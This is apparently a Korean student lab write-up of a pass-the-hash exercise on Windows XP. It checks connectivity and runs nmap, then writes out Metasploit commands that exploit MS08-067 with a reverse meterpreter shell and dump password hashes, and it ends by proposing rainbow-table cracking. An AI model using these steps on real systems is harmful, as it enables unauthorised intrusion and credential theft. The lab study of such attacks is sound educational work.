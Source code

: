 # Window Xp에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window Xp가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B8.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.

**nmap (WindowXp)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B82.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window XP에서 Password 수집하기

**msfconsole 을 Kali의 명령창에 입력한다.**

이후 우리는 Window XP의 취약점인 MS08-067을 이전의 실습을 통해 알고 있다.
이를 통해 우리는 password를 얻어낼 것이다.

**search ms08-067**

**use exploit/windows/smb/ms08_067_netapi**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%201.png)

**set payload windows/meterpreter/reverse_tcp_allports**

**show options**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%202.png)

**set RHOST (WindowXp의 IP)**

**set LHOST (Kali의 IP)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%203.png)

**run**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%204.png)

**sysinfo**

**hashdump**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%20%EC%99%84%EB%A3%8C.png)

### 이를 통한 공격방법은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
그렇다면 이것이 과연 무슨 역활을 하는가에 대해 생각하면 다음과 같이 이를 활용해서 공격을 할 수 있다.
그것은 바로 raindow Hashtable attack을 통해 취약점을 통해 구한 hash의 값에 맞는 원래의 Pw를 찾아내는 공격을 통해 사용자의 Password를 알아 낼 수 있다.
